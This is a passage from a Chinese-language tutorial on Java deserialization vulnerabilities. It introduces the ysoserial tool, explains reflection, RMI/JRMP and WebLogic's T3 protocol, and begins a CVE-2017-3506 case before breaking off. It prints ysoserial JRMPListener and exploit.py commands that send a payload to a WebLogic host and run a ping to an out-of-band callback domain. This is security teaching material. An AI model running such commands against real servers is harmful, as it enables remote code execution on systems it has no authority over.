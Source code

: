 上述代码，MyObject类中对readObject()方法重写，重写过程中添加了执行calc（计算器）的代码。

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220107171320.png)

#### 工具Ysoserial

Ysoserial是国外一款安全工具，集合了各种java反序列化payload，下载地址：

https://github.com/frohoff/ysoserial/

使用方法：

1、在公网上选择一个端口进行流量监听：

java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1  'ping -c 2  rce.267hqw.ceye.io'

2、客户端发送payload

python exploit.py 118.89.53.139 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 118.89.53.139  1099 JRMPClient

解释：JRMPListener 是 ysoserial 工具里的其中一个利用模块，作用是通过反序列化，开启当前主机的一个 JRMP Server ，具体的利用过程是，将反序列化数据发送到 Server 中，然后Server 中进行反序列化操作，并开启指定端口，然后在通过 JRMPClient 去发送攻击 payload。

#### 前提知识

##### **1.反射机制**

JAVA反射机制是在运行状态中，对于任意一个类，都能够知道这个类的所有属性和方法；对于任意一个对象，都能够调用它的任意一个方法和属性；这种动态获取的信息以及动态调用对象的方法的功能称为java语言的反射机制。

##### **2.RMI和JRMP协议**

RMI是Remote Method Invocation的简称，是J2SE的一部分，能够让程序员开发出基于Java的分布式应用。一个RMI对象是一个远程Java对象，可以从另一个Java虚拟机上（甚至跨过网络）调用它的方法，可以像调用本地Java对象的方法一样调用远程对象的方法，使分布在不同的JVM中的对象的外表和行为都像本地对象一样，RMI传输过程都使用序列化和反序列化。RMI目前使用Java远程消息交换协议JRMP（Java Remote Messaging Protocol）进行通信。JRMP协议是专为Java的远程对象制定的协议。

##### **3.T3协议**

WebLogic Server 中的 RMI 通信使用 T3 协议在WebLogic Server和其他 Java程序（包括客户端及其他 WebLogic Server 实例）间传输数据（序列化的类）。由于WebLogic的T3协议和Web协议共用同一个端口，因此只要能访问WebLogic就可利用T3协议实现payload和目标服务器的通信。

<br>

#### 案例：

##### xml decode反序列化RCE——**CVE-2017-3506**

影响版本：

Oracle WebLogic Server10.3.6.0.0 版本

Oracle WebLogic Server12.1.3.0.0 版本

Oracle WebLogic Server12.2.1.1.0 版本

Oracle WebLogic Server12.2.1.2.0 版本

环境：
